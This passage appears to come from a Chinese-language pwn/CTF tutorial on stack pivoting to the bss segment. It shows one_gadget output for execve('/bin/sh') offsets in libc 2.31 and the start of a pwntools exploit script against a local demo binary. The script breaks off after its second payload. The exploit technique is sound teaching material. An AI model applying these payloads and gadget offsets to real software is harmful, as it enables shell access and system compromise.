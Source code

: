 [![](assets/1705982215-f6be2959ee54231e3976716d6eb190d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121162420-79cdfd90-b836-1.png)

接下来再用一次上面的三个步骤即可在最后的payload3进行控制参数任意函数（伪）执行了

### 有一些注意的点：

当栈迁移到bss段后，有一些函数加载的临时变量可能无法正常加载到新的栈上，所以在返回到主函数运行时报错就需要重新寻找适合的，能够进行再次溢出的位置作为返回地址

这类函数包括但不限于：system，execve，printf，seccomp等等

所以在以上的返回中我们如果想返回一个shell，就需要利用工具 `one_gadget`（后面再开一章讲解工具安装和使用）查找libc中的能直接调用系统调用execve("/bin/sh",0,0)的gadget偏移

上面demo程序在 `libc2.31ubuntu9.9` 的one\_gadget如下

```plain
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp
```

最终以上demo在 `libc2.31ubuntu9.9` 下的利用脚本如下

```plain
from pwn import*
context(arch='amd64',log_level='debug')
io = process('./stp')
elf = ELF('./stp')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context(arch='amd64',log_level='debug')
read = 0x4011DF
bss=elf.bss()+0x100
main=0x4011BD
rdi=0x401273
puts_got=0x404018 
puts_addr=0x401060
payload1 = b'a'*0x30+p64(bss)+p64(read)
payload2 = b'a'*0x30+p64(bss+0x30)+p64(read)
```